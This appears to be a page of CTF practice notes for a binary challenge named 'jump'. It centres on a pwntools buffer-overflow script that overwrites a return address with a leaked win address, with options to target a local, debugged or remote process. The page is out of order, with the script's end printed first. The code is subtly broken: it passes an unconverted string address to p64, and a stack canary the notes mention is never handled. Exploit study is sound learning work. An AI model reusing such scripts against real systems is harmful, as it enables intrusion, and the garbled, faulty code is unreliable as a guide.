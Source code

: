 ```
print(res)

le = p64(win_addr)
be = p64(win_addr, endianness="big")
payload = b"A" * BUFF_SIZE + le
print(f"Sending payload: {payload}")

io.sendline(payload)
io.interactive()

```

Jump
===========================

this is the ret addr to:
0x00000000004012ce
x/10xg $rbp

Need to overwrite the return address and restire the stack canary

Script/Command used
------------------

```
from pwn import *
import re

PROGRAM_PATH = (Path(__file__).parent / "jump").resolve().__str__()
BUFF_SIZE = 0x40 + 8
# now ADD eight bytes for the return address

# BUFF_SIZE = 0x88
# CANARY = 123456789
# win_addr = 0x401196

gdb_script = """
b *main
b *vuln+42
b *vuln+54
c
"""


# FullPath
print(f"Program path is: {PROGRAM_PATH}")
print("____________________________________")


# TODO: Add the ip address here later!
def start(argv=[], *a, **kwargs):
    if args.GDB:
        return gdb.debug([PROGRAM_PATH] + argv, gdbscript=gdb_script, *a, **kwargs)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kwargs)
    else:
        return process([PROGRAM_PATH] + argv, *a, **kwargs)


io = start()
res = io.recvlinesS(1)
print("____________________________________")
print(res)
matched = re.search(r"0x[0-9A-Fa-f]+", res[0])
win_addr = matched.group(0)
```